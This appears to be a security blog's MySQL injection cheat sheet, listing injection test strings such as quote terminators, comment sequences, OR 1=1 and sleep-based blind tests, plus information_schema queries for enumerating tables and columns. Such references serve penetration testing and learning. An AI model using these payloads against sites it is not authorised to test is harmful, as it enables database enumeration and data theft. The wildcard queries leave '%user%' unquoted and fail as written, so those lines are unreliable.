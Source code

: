 ```yaml
---
title: MySQL Injection Cheatsheet
date: 2020-07-29 13:10:00
tags: [sqli, sql injection, cheatsheet, web attacks]
---
```


# MySQL Injection cheatsheet

## Testing checklist 

| Name | Character | Function |
| ------ | ----------- | ---------- |
| Single quote | `'` | String terminator |
| Semi colon | `;` | Query terminator |
| Comment | `-- -` | Removes the rest of the query |
| Comment | `#` | Removes the rest of the query |
| Comment | `/*comment this*/` | Can be placed anywhere in a query, used for bypassing weak filters |
| Single quote with a comment | `'-- -` | End a string and remove rest of the query |
| Single quote, semi colon and a comment | `';-- -` | End a string, end query, and remove rest of the query |
| OR operator | `OR 1=1-- -` | For integers, `true` test |
| OR operator | `OR 1=2-- -` | For integers, `false` test |
| OR operator | `' OR '1'='1'-- -` | For strings, `test` test |
| AND operator | `AND 1=1-- -` | For integers, `true` test |
| AND operator | `AND 1=2-- -` | For integers, `false` test |
| AND operator | `' AND '1'='1'-- -` | For strings, `true` test |
| Sleep function | `OR sleep(5)-- -` | Blind test |

## Functions

| Function | Description |
| ------ | ------------- |
| `database()` | Get the name of the working database | 
| `user()` | Get the name of the user operating on the working database |
| `version()` | MySQL version | 
| `concat()` | Concatenate two or more strings per row | 
| `group_concat()` | Concatenate all the strings in one row | 
| `substring('string'/<column_name>,<offset>,<length>)` | Get a part of the value of a string or column |
| `ord()` | Convert the value to ordinal (decimal) | 


## Database Contents
*Works with UNION queries*

Get the tables present in your working database:
``` SQL
SELECT table_name FROM information_schema.tables WHERE table_schema=database()
```

Once you get the tables, you can get the columns from those tables:

``` SQL
SELECT column_name FROM information_schema.columns WHERE table_name='x'
```

## Wildcards:

Get any table which consists the term "user" anywhere:

``` SQL
SELECT table_name FROM information_schema.tables WHERE table_name like %user%
```

Get any column which consists the term "user" in it:

``` SQL
SELECT column_name FROM information_schema.columns WHERE column_name like %user%;

/* Get columns along with its respective tables */
SELECT GROUP_CONCAT(column_name,0x3a,table_name,'\r\n') FROM information_schema.columns WHERE column_name like %user%;
```


## Fin 

If you found some mistake, or would like me to add something, feel free to contact me :)

Other DB SQL injection cheatsheets will be added soon.